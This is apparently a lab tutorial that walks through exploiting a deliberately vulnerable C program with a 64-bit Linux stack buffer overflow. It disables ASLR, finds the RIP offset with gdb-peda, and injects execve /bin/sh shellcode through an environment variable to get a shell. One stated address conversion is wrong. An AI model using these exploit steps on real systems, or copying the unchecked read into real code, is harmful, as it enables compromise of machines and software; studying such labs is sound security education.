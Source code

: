 # 64-bit Stack-based Buffer Overflow

The purpose of this lab is to understand how to get control of the RIP register when dealing with classic stack-based buffer overflow vulnerabilities in x64 bit Linux systems.

This lab is based on a great post [https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/](https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/).

{% hint style="info" %}
Note that the vulnerable program is compiled without memory protections deliberately. Also, for this lab to work, ASLR on your Linux system must be disabled.
{% endhint %}

Useful notes:

{% page-ref page="../../../miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame.md" %}

## Vulnerable Code

In this lab, we will be using the below vulnerable program:

{% tabs %}
{% tab title="vulnerable.c" %}
```c
// code from https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/

#include <stdio.h>
#include <unistd.h>

int vuln() {
    char buf[80];
    int r;
    r = read(0, buf, 400);
    printf("\nRead %d bytes. buf is %s\n", r, buf);
    puts("No shell for you :(");
    return 0;
}

int main(int argc, char *argv[]) {
    printf("Try to exec /bin/sh");
    vuln();
    return 0;
}
```
{% endtab %}
{% endtabs %}

We can compile the above code with:

```python
gcc -fno-stack-protector -z execstack vulnerable.c -o vulnerable
```

{% hint style="warning" %}
Don't forget to disable the ASLR:

```text
echo 0 > /proc/sys/kernel/randomize_va_space  
```
{% endhint %}

## Getting Control of RIP

Let's try to overflow the program by sending some garbage data to it. First of, let's generate the said garbage - 200 AAAAs...:

```python
python -c "print 'A'*200" > in.bin
```

Let's now run the vulnerable program, feed the garbage file to it and observe what happens:

```python
gdb vulnerable
r < in.bin
```

![Vulnerable program crashes when the garbage is fed to it, but the RIP is not overwritten](../../../.gitbook/assets/image%20%28899%29.png)

Note from the above screenshot the following key points:

* The stack has been overflowed with As \(lime\);
* RIP register \(red\) has not been overflowed although it would have been, had this been a 32-bit binary. On the same note, we can indeed see that the return address \(RSP + 0 as `ret` instruction will pop this value and jump to it\) has been filled with As, so why are we not in control of the RIP register?

### Why is RIP not overflowed?

The reason the RIP was not overflowed \(technically it was, as we saw in the above screenshot, but there's more to it\), is because the `AAAAAAAA` \(`0x4141414141414141`\) is considered a non-canonical memory address, or, in other words, `0x4141414141414141` is a 64-bit wide address and current CPUs prevent applications and OSes to use these addresses. The highest memory that programs can address is 48-bit wide addresses and they are capped at `0x00007FFFFFFFFFFF` - this is to prevent complexity in memory address translations that would not provide much benefit to the OSes or applications as it's very unlikely they would ever need to use all of that 64-bit address space. 

### Controlling RIP

Knowing about canonical addresses, we could take control of the RIP if the 64-bit wide return address `0x4141414141414141` \(our garbage data\) was translated to a 48-bit canonical address by masking off the 2 highest bytes:

```python
// WinDBG
0:000> ? 0x4141414141414141 & 0x00007FFFFFFFFFFF
Evaluate expression: 71748523475265 = 00004141`41414141
```

Making our garbage return address a valid canonical address:

$$
0x0000414141414141
$$

Let's see if we can make the program crash and make the RIP point to the now valid return address `0x0000414141414141`. Before we can do this, we need to find out how much garbage `AAA..` we need to send in to the vulnerable program before we can place `0x0000414141414141` onto the stack, so that we can take over the RIP.

In gdb-peda, let's create a pattern of 200 characters:

```python
gdb-peda$ pattern_create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
```

Now feed that pattern to the vulnerable program, observe the crash, and find the offset where we should place our preferred RIP value \(`0x0000414141414141`\):

![RIP offset is 104](../../../.gitbook/assets/image%20%28876%29.png)

From the above screenshot, we can see that our pattern `A7AAMAAiA...` is visible at the top of the stack -  this value would be popped from the stack and jumped to by the `ret` instruction and we are interested in knowing how deep into the stack it goes. To work it out, we can use another gdb-peda command like so:

```python
gdb-peda$ pattern_offset A7AAMAAiA
A7AAMAAiA found at offset: 104
```

We can now see that the offset of interest is **104**, so let's test it by generating a new garbage file:

```python
python -c "print 'A'*104 + '\x41\x41\x41\x41\x41\x41\x00\x00'" > in.bin
```

Note that our garbage data will now contain 104 As and a canonical return address `0x0000414141414141` \(in reverse due to little-endianness\). Sending this data to the vulnerable program reveals that we have now taken control of the RIP register:

![We can now control RIP as it points to 0x0000414141414141](../../../.gitbook/assets/image%20%28888%29.png)

## Exploitation

We'd like the vulnerable program to spawn a shell for us when exploited, so we will place the [shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php) in the environment variable `PWN` like so:

```python
export PWN=`python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
```

We now need to find the memory address of the `PWN` environment variable in the vulnerable program's stack. For this, we can use the following program:

{% tabs %}
{% tab title="getenvvar.c" %}
```cpp
// code by Jon Erickson, page 147 and 148 of Hacking: The Art of Exploitation, 2nd Edition
// compile: gcc getenvvar.c -o getenvvar

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	char *ptr;

	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```
{% endtab %}
{% endtabs %}

Simply run it like so:

```python
./getenvvar PWN ./vulnerable
```

...to learn that `PWN` environment variable will be on the vulnerable program's stack at `0x7fffffffefa8`:

![PWN environment variable location on the stack in the vulnerable program](../../../.gitbook/assets/image%20%28880%29.png)

Let's now convert `0x7fffffffefa8` to its canonical \(2 highest bytes masked off\) form, which equals to `0x0000ffffefa8`. We can now try to exploit the vulnerable program by sending the garbage data that now includes the `PWN` environment variable address as the return address at offset 104, like so:

```python
(python -c "print 'A'*104 + '\xa8\xef\xff\xff\xff\x7f\x00\x00'"; cat) | ./vulnerable
```

![Vulnerable program is exploited and results in a new shell](../../../.gitbook/assets/x64-stack-overflow.gif)

To confirm the exploit worked as expected, we can `unset` the `PWN` environment variable and try to exploit the program again - we will see the program crash, since it no longer has no shellcode to execute:

![Exploit no longer works since shellcode is gone from the PWN environment variable](../../../.gitbook/assets/image%20%28879%29.png)

## References

{% embed url="https://www.ret2rop.com/2018/08/stack-based-buffer-overflow-x64.html" %}

{% embed url="https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/" %}

{% embed url="https://medium.com/@\_neerajpal/explained-difference-between-x86-x64-disassembly-49e9678e1ae2" %}

[https://www.cs.tufts.edu/comp/40/docs/x64\_cheatsheet.pdf](https://www.cs.tufts.edu/comp/40/docs/x64_cheatsheet.pdf)

